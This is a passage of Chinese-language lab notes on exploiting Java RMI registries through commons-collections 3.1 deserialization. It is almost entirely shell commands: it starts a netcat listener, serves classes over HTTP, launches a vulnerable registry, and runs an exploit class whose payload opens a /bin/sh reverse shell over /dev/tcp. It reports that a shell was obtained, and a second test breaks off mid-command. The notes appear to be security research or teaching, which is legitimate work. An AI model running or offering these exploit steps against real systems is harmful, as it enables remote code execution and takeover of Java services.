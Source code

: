 nc -l -p 7474

在test1目录执行:

python3 -m http.server -b 192.168.65.23 8080

在test2目录执行:

java_8_40 \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

在test3目录执行:

java \
-cp "commons-collections-3.1.jar:." \
RMIRegistryExploitWithHashtable2 192.168.65.23 1099 \
http://192.168.65.23:8080/ DoSomething 1 \
"/bin/sh -i > /dev/tcp/192.168.65.23/7474 0<&1 2>&1"

回到前面那个nc，已经得到一个shell，其uid对应RMIRegistryServer进程的euid。

14.4.3) 测试3(rmiregistry)

在test1目录执行:

python3 -m http.server -b 192.168.65.23 8080

在test2目录执行:

java_8_40 \
-cp "commons-collections-3.1.jar" \
-Djava.security.policy=all.policy \
sun.rmi.registry.RegistryImpl 1099

在test3目录执行:

java \
-cp "commons-collections-3.1.jar:." \
RMIRegistryExploitWithHashtable2 192.168.65.23 1099 \
